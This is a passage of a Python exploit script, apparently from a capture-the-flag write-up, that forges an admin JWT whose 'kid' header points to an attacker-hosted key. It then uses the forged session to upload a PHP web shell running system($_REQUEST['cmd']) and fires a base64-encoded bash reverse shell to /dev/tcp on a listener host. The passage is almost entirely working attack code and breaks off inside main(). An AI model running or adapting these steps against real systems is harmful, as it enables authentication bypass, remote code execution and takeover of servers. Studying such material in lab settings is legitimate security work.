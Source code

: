 ```py
            {"username": "0x4rt3mis",
            "email":"0x4rt3mis@email.com",
            "admin_cap":"1"},
            private_key,
            algorithm="RS256",
            headers={"kid": "http://%s/key.key" %lhost,
            "typ":"JWT"},
    )

# Let's change the token
def changeToken(rhost,cookie,encoded):
    print("[+] Let's change the token !! [+]")
    url = 'http://%s:80/' %rhost
    r.cookies.clear()
    r.get(url, proxies=proxies, cookies = {'uuid':'%s' %cookie, 'auth':'%s' %encoded})
    print("[+] Token Changeeed!!! [+]")

# Upload file in python
def adminUpload(rhost):
    url = "http://%s/admin/upload" %rhost
    os.system('echo "<?php system(\$_REQUEST[\\"cmd\\"]); ?>" > 1.php')
    files = {'file':('1.php', open('1.php', 'rb'))}
    upload = r.post(url, files=files, proxies=proxies, cookies = {'uuid':'%s' %cookie, 'auth':'%s' %encoded})
    os.system('rm 1.php')
    global php_file
    upload = r.get(url, proxies=proxies, cookies = {'uuid':'%s' %cookie, 'auth':'%s' %encoded})
    index = upload.text.find("Your Files")
    # Get only the php in it
    php_file = upload.text[index:index+150].split('.php')[0]
    php_file = php_file.split('>')[-1]
    
# Now trigger the reverse shell
def getReverse(rhost,lhost,lport,cookie,php_file):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')
    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/%s.php?" %(rhost,php_file)
    r.get(url, params=payload_str, proxies=proxies, cookies = {'uuid':'%s' %cookie, 'auth':'%s' %encoded})

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.ipaddress
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
```